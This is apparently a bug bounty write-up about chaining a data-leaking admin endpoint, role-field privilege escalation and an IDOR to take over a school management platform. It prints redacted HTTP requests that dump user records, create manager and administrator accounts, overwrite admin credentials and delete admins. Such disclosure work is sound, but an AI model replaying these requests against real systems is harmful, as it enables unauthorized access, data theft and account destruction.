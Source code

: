 ```yaml
---
title: "Taking Over an Entire Organization - A Journey Through Multiple Bugs"
datePublished: Mon Jun 12 2023 15:36:47 GMT+0000 (Coordinated Universal Time)
cuid: clit0ovif000p09l7gv5shskj
slug: taking-over-an-entire-organization-a-journey-through-multiple-bugs
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584109939/d21a2887-3fa1-4e1b-b4d5-a347212a4960.jpeg
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1686584167263/413b0100-0fb7-47d6-b751-17710af05b26.jpeg
tags: hacking, hackernews, penetration-testing, bugbounty, bugbountytips

---
```


## **Introduction**

Today, I want to share a thrilling adventure, a tale of how a few seemingly harmless bugs can snowball into a security nightmare. Through collaborative work with my friend [DreyAnd](https://twitter.com/dreyand_) back in **April 2023,** we managed to expose vulnerabilities that eventually led to a **total organizational takeover.**

## **The Discovery**

Our journey began with an application we were testing - a school management platform designed to enable teachers and managers to control classes, students, examinations, and other resources. The platform boasted a substantial user base of students.

The first issue we spotted was that we needed a way to leak all the data and UUIDs of these numerous students.

Surprisingly, the first bug was found in a place where most would feel secure - the `admin` endpoint. Despite the endpoint itself being inaccessible, we discovered a **Broken Access Control** mechanism under this admin endpoint. Although it should have been locked behind administrative privileges, a properly formatted backend request allowed us to leak a vast amount of user data. This included information from students, teachers, and even admins.

By simply sending a `GET` request to the `/v1/admin/<organization>/customers/getUsers?=*` endpoint, we were able to gather:

* Usernames
    
* User ID
    
* Email Address
    
* Hostname
    
* IP Address
    
* Account Expiration
    

```http
GET /v1/admin/<organization>/customers/getUsers?=* HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

[
  {
    "account_id": "<userid>",
    "avatar_url": "https://api.redacted.com/v2/avatar/?id=1234567",
    "first_name": "Hacker ",
    "last_name": "Admin1",
    "title": "",
    "role": "Administrator",
    "devices": [],
    "email": "hackeradmin@redacted.com",
    "username": "hackeradmin1337",
    "external_person_key": "1234567",
    "end_date": "2027-07-25T00:00:00",
      "last_session": {
        "broadcast_id": "1234-1234-1234-1234-1234ge321",
        "account_id": "<userid>",
        "created": "2027-02-27T17:56:27.4194925",
        "completed": "2027-02-27T17:57:34.0976831",
        "satellite_server_id": 123456,
        "IP": "<IP>",
        "roster_id": 12345,
        "customer_id": "<userid>",
      },
      "created_by": "<creatorid>",
      "roster_id": 54321,
      "name": "creator"
    },
    "schools": [
      {
        "school_id": "<ID>",
        "school_code": "<CODE>",
        "name": "school"
      }
  ]
```

This was our first red flag. Despite being a low-privilege account, we could fetch all the UUIDs we needed for an attack.

Next, we observed that while these **low-privilege accounts could not create admin accounts**, they could, quite strangely, **create manager accounts** which allowed us to do a vertical **Privilege Escalation**.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <low permission user auth>
Origin: https://www.redacted.com

{
  "first_name": "drey",
  "last_name": "ahnd",
  "username": "DreyAnd",
  "external_person_key": "",
  "email": "hacktus+5@wearehackerone.com",
  "role": "Manager",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<ManagerID>}
```

This was our second clue that things were not quite right.

Our journey didn't stop at the manager level. We sought to determine whether we could escalate our privileges even further to obtain `admin` status. If we could go from a `low-privilege` account to a manager account, what was stopping us from becoming admins?

We discovered two significant bugs that allowed us to elevate our permissions.

The first was a **Privilege Escalation** bug that let us modify our own permissions - the same technique we had used with the `low-privilege` account - and upgrade to an `admin`.

```http
POST /v1/<organization>/users HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <manager auth>
Origin: https://www.redacted.com

{
  "first_name": "Hacker",
  "last_name": "Admin",
  "username": "hacktus",
  "external_person_key": "",
  "email": "hacktus@wearehackerone.com",
  "role": "Administrator",
  "schools": [
    "<ID>"
  ],
  "password": "Password",
}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 22
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET

{"account_id":<AdminID>}
```

The second bug was an **Insecure Direct Object Reference (IDOR)** that let us modify the data of any existing `admin` account - specifically the email and password. With this capability, we could essentially take over any admin account within the organization.

```http
PUT /v1/<organization>/users/<adminid> HTTP/2
Host: api.redacted.com
Content-Length: 339
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>

[
    {
        "first_name": "tookover",
        "last_name": "by manager",
        "username": "admin",
        "external_person_key": "",
        "email": "test@redacted.com",
        "role": "Administrator",
        "schools": [
            "<ID>"
        ],
        "password": "NewPassword",
    }
]
```

With these newfound bugs, we had effectively breached the heart of the administrative sphere.

## **The Impact**

What came next was something we didn't initially foresee. Using the admin access we had just secured, we managed to delete all other admin accounts, effectively taking over the entire organization.

```http
DELETE /v1/<organization>/users/<userid> HTTP/2
Host: api.redacted.com
Accept: */*
Content-Type: application/json
Authorization: Basic <admin auth>
```

Our findings demonstrated the massive impact of these bugs. The organization's integrity was at risk due to the snowballing effect of several vulnerabilities that, individually, may not have appeared as critical threats.

## **Conclusion**

In this journey of discovery, we've learned how crucial it is to understand the implications of seemingly insignificant bugs. More importantly, we have demonstrated how a chain of these bugs can potentially lead to a full organizational takeover.

In the ever-evolving landscape of cybersecurity, there's never been a more important time to ensure the safety of our digital spaces. Remember - when it comes to security, every bug counts, no matter how small it may seem.

*Happy hacking and stay secure!*